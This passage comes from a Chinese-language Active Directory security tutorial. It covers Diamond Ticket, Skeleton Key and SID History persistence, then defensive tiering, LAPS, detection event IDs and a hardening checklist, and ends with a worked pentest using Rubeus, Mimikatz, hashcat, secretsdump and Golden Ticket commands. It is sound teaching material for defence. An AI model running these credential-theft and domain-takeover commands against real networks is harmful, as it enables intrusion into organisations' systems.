Diamond Ticket是Golden Ticket的升级版本。它不是从头伪造TGT，而是修改KDC签发的合法TGT中的属性（如将普通用户改为Domain Admin）。这使得Diamond Ticket在流量分析中几乎不可识别——因为签名是合法的。

```powershell
# 使用Rubeus创建Diamond Ticket
Rubeus.exe diamond /krbkey:KRBTGT_AES256_KEY /user:lowpriv /domain:target.local /dc:dc01.target.local /ticketuser:Administrator /ticketuserid:500 /groups:512 /ptt
```

#### 4.7.4 其他持久化技术

**Skeleton Key**：在DC的LSASS中注入一个万能密码，允许使用特定密码（默认 `mimikatz`）以任意用户身份认证。仅在内存中存在，重启后消失。

**AdminSDHolder**：AdminSDHolder容器的ACL每60分钟（由SDProp进程）复制到所有受保护组（Domain Admins、Enterprise Admins等）的成员上。攻击者修改AdminSDHolder的ACL后，可以为所有高权限账户添加后门权限。

**DSRM后门**：每个DC都有一个目录服务还原模式（DSRM）管理员账户，密码在DC安装时设置。攻击者修改注册表将DSRM账户的登录行为改为与域账户相同，可以使用DSRM密码远程登录DC。

**SID History注入**：攻击者将高权限域的SID注入到低权限用户的 `SIDHistory` 属性中，使低权限用户获得高权限域的访问权限。

```powershell
# SID History注入（Mimikatz）
mimikatz # sid::patch
mimikatz # sid::add /sam:lowpriv /new:S-1-5-21-XXXX-519  # Enterprise Admins SID
```

### 4.8 AD防御与加固

#### 4.8.1 分层管理模型（Tier Model）

微软推荐的分层管理模型将域管理划分为三个层级：

| 层级 | 管理对象 | 允许使用的账户 | 禁止行为 |
|------|---------|--------------|---------|
| Tier 0 | DC、AD、DNS、PKI基础设施 | 专用Tier 0管理员账户 | 登录到非Tier 0系统 |
| Tier 1 | 成员服务器、企业应用 | 专用Tier 1管理员账户 | 登录到工作站或Tier 0系统 |
| Tier 2 | 工作站、终端设备 | 专用Tier 2管理员账户 | 登录到服务器或Tier 0/1系统 |

**核心原则**：高权限账户不得登录低层级系统。因为一旦管理员在工作站上登录，其凭据缓存在工作站的LSASS中，攻击者可以通过该工作站获取高权限哈希。

#### 4.8.2 LAPS（Local Administrator Password Solution）

LAPS为每台域计算机的本地管理员账户设置唯一且随机的密码，密码存储在AD的计算机对象属性中（`ms-Mcs-AdmPwd`）。这防止了Pass-the-Hash的横向扩散——每台机器的本地管理员密码都不同。

```powershell
# LAPS部署：通过GPO推送LAPS客户端安装
# 安装LAPS管理工具
# 查看特定计算机的本地管理员密码
Get-AdmPwdPassword -ComputerName "workstation01"

# LAPS v2（Windows LAPS）已内置在Windows Server 2019+和Windows 10+
# 支持将密码加密后存储在AD中
# 支持Azure AD和Windows Hello认证
```

#### 4.8.3 委托管理账户（PAW）

Privileged Access Workstation（PAW）是专用于管理任务的加固工作站。Tier 0管理员只在PAW上登录和操作，PAW本身运行最小化的、加固的操作系统，并受到严格的网络隔离。

#### 4.8.4 监控与检测策略

AD安全监控应覆盖以下关键事件：

| 检测场景 | Windows事件ID | 说明 |
|---------|--------------|------|
| DCSync攻击 | 4662 | 非DC主机访问 `DS-Replication-Get-Changes-All` |
| Golden Ticket | 4768 | TGT请求中的异常标志或生命周期 |
| Kerberoasting | 4769 | 单一会话请求大量不同SPN的TGS票据，且加密类型为RC4 |
| AS-REP Roasting | 4768 | 不要求预认证的用户收到AS-REP |
| NTLM中继 | 4624（Type 3） | 异常来源的NTLM登录 |
| 密码重置 | 4724 | 非预期的密码重置操作 |
| 组成员变更 | 4728/4732/4756 | 向高权限组添加成员 |
| 模板修改 | 4662 | 证书模板ACL被修改 |
| GPO修改 | 5136 | GPO对象属性变更 |

**高级检测工具**：

- **Microsoft ATA / Defender for Identity**：部署在DC旁路，深度分析AD流量，自动检测Pass-the-Hash、DCSync、Golden Ticket等攻击
- **Splunk + Windows Security日志**：集中收集和分析DC安全事件
- **Velociraptor**：终端取证和实时监控工具
- **Sigma规则**：标准化的检测规则格式，可导入SIEM平台

#### 4.8.5 加固检查清单

以下是AD安全加固的关键检查项：

```text
[ ] 重置krbtgt密码两次（首次后等待复制，约12小时，再重置第二次）
[ ] 启用LAPS，确保所有计算机的本地管理员密码唯一
[ ] 禁用NTLM认证（或限制为NTLMv2 only）
[ ] 强制SMB签名
[ ] 启用LDAP签名和通道绑定
[ ] 配置GPO要求Kerberos使用AES256加密（禁用RC4）
[ ] 审计所有拥有"目录复制"权限的账户
[ ] 审计所有不需要预认证的用户账户
[ ] 审计所有约束委派和无约束委派配置
[ ] 审计所有拥有SPN的服务账户密码强度
[ ] 审计ADCS证书模板的高危配置
[ ] 移除SYSVOL中的GPP密码和硬编码凭据
[ ] 部署分层管理模型，隔离Tier 0账户
[ ] 启用Credential Guard保护LSASS进程
[ ] 配置精细密码策略（FGPP）为高权限账户设置更长密码
[ ] 启用受保护用户组（Protected Users）保护关键账户
[ ] 配置AdminSDHolder权限审查
[ ] 部署SIEM监控DC关键安全事件
```

### 4.9 常见误区与纠正

**误区一："域管理员密码很安全，不需要额外保护"**
纠正：域管理员的凭据在LSASS进程中以哈希形式存在。任何获得SYSTEM权限的攻击者都可以提取这些哈希。**保护域管理员账户的真正关键是减少登录次数、使用PAW、启用Credential Guard、加入Protected Users组。**

**误区二："禁用SMBv1就够了，不需要SMB签名"**
纠正：SMBv1是协议版本，SMB签名是数据完整性保护。即使禁用了SMBv1，如果未启用SMB签名，NTLM中继攻击仍然可以通过SMBv2/v3进行。**必须强制要求SMB签名。**

**误区三："Kerberos比NTLM安全得多，只需要关注NTLM攻击"**
纠正：虽然Kerberos的设计确实更安全，但它引入了新的攻击面：Kerberoasting、AS-REP Roasting、Golden Ticket、Silver Ticket、委派滥用等。**Kerberos的安全性依赖于正确的配置，错误的配置反而比NTLM更危险。**

**误区四："只监控域控制器就够了"**
纠正：AD攻击的初始访问通常发生在工作站上（钓鱼、恶意软件），凭据提取发生在成员服务器上（Pass-the-Hash），最终才会触及DC。**需要覆盖终端、服务器、网络流量的全方位监控。**

**误区五："证书服务是独立的，不属于AD攻击面"**
纠正：ADCS与AD深度集成，证书模板存储在AD中，认证通过AD完成。ADCS的配置错误可以直接导致域管理员级别的权限提升（ESC1-ESC8）。**ADCS审计是AD安全评估的必要组成部分。**

### 4.10 实战案例：企业域环境渗透

以下是一个完整的AD渗透测试案例，展示从普通域用户到Domain Admin的攻击路径：

**环境信息**：目标域 `mega.corp.local`，2000+用户，500+计算机，3台DC，已部署EDR（CrowdStrike）。

**第一步：侦察与枚举**（域用户权限）

```text
# BloodHound数据收集（使用Python版，避免PowerShell监控）
bloodhound-python -u intern01 -p 'Summer2026!' -d mega.corp.local -dc dc01.mega.corp.local -c All

# BloodHound分析发现：
# 1. intern01 是 "IT Interns" 组成员
# 2. "IT Interns" 对 "Service Accounts" OU 有 GenericWrite 权限
# 3. svc_webapp 账户配置了到 fileserver.mega.corp.local 的约束委派
# 4. svc_webapp 有 SPN，密码策略强度未知
```

**第二步：权限提升**（GenericWrite → 服务账户控制）

```powershell
# 利用GenericWrite重置svc_webapp的密码
# 或更隐蔽的方式：设置SPN使其支持Kerberoasting
Set-DomainObject -Identity svc_webapp -Set @{servicePrincipalName='http/fakespn'}

# Kerberoasting获取票据
Rubeus.exe kerberoast /user:svc_webapp /outfile:svc_webapp_tgs.txt

# Hashcat破解（假设密码复杂度一般）
hashcat -m 13100 svc_webapp_tgs.txt rockyou.txt
# 成功：密码为 W3bApp$ecure2024!
```

**第三步：约束委派利用**（服务账户 → 文件服务器）

```text
# 使用svc_webapp的凭据执行S4U攻击
Rubeus.exe s4u /user:svc_webapp /rc4:HASH /impersonateuser:Administrator /msdsspn:cifs/fileserver.mega.corp.local /ptt

# 获得对文件服务器的CIFS访问权限
dir \\fileserver.mega.corp.local\c$

# 在文件服务器上执行命令
wmiexec.py -hashes :HASH mega.corp.local/Administrator@fileserver.mega.corp.local "whoami"
```

**第四步：获取Domain Admin**（文件服务器 → DC）

```text
# 文件服务器上发现域管理员的活跃会话
# 使用Mimikatz提取凭据
sekurlsa::logonpasswords
# 发现 DA 用户 john.doe 的 NTLM 哈希

# DCSync提取krbtgt哈希
secretsdump.py -hashes :DA_HASH mega.corp.local/john.doe@dc01.mega.corp.local

# Golden Ticket持久化
ticketer.py -nthash KRBTGT_HASH -domain-sid S-1-5-21-XXXX -domain mega.corp.local Administrator
```

**第五步：清理与报告**

```text
# 记录所有操作和时间戳
# 移除创建的后门（SPN修改、临时账户等）
# 编写渗透测试报告，包含：
# - 发现的漏洞和配置错误
# - 攻击路径和技术细节
# - 风险等级评估
# - 具体的修复建议
```

### 4.11 工具与资源汇总

| 工具 | 用途 | 语言/平台 |
|------|------|----------|
| Mimikatz | 凭据提取、票据操作 | Windows/C |
| Rubeus | Kerberos攻击（票据请求、注入、伪造） | C#/.NET |
| Impacket | 远程AD攻击（PtH、DCSync、SMBExec） | Python/Linux |
| BloodHound / SharpHound | AD攻击路径分析 | C#/PowerShell |
| Certipy / Certify | ADCS漏洞利用 | Python / C# |
| CrackMapExec | 批量横向移动和凭据验证 | Python/Linux |
| Whisker | Shadow Credentials攻击 | C#/.NET |
| PowerView | AD枚举和分析 | PowerShell |
| PingCastle | AD安全评估（防御视角） | C#/.NET |
| Testimo | AD健康检查自动化 | PowerShell |
| aclpwn.py | ACL攻击路径自动化 | Python |
| ADCSPwn | ADCS ESC漏洞利用 | C#/.NET |

### 4.12 进阶话题

#### 4.12.1 跨域与跨林攻击

当AD环境包含多个域或信任的林时，攻击面显著扩大。域信任允许跨域认证和资源访问，但也成为攻击者横向扩展的通道。通过信任关系，攻击者可以从一个域传播到另一个域，甚至通过林信任传播到合作伙伴的林中。

**跨域攻击技术**：
- 利用域间信任关系执行SID History注入
- 通过信任密钥（Inter-Realm Trust Key）伪造跨域TGT
- 利用Forest Trust的SID Filtering绕过
- 通过共享资源（如Exchange、SCCM）进行跨域凭据提取

#### 4.12.2 Entra ID（Azure AD）混合环境

现代企业越来越多地采用混合AD架构——本地AD与Azure AD/Entra ID集成。这引入了新的攻击面：

- Azure AD Connect同步账户拥有高权限，其凭据可从同步服务器提取
- Azure AD设备加入和混合加入配置可能创建新的信任边界
- Azure AD Conditional Access策略可能被绕过
- OAuth应用注册可以成为新的持久化后门

#### 4.12.3 AD安全的未来趋势

随着Windows LAPS内置化、Passkeys/FIDO2逐步替代密码、Entra ID（Azure AD）的持续发展，AD安全正在经历根本性变革。但本地AD仍然存在于绝大多数企业网络中，且预计在未来10年内不会被完全替代。**理解传统AD攻击技术仍然是网络安全从业者的基本功。**

---

> **参考资源**：
> - [MITRE ATT&CK - Active Directory](https://attack.mitre.org/techniques/enterprise/)
> - [Harmj0y - Kerberos & Attacks 101](https://blog.harmj0y.net/)
> - [Will Schroeder - Certified Pre-Owned (ADCS)](https://posts.specterops.io/certified-pre-owned-d95910965cd2)
> - [Microsoft - Securing Active Directory](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/plan/security-best-practices/best-practices-for-securing-active-directory)
> - [BloodHoundAD - Documentation](https://bloodhound.readthedocs.io/)
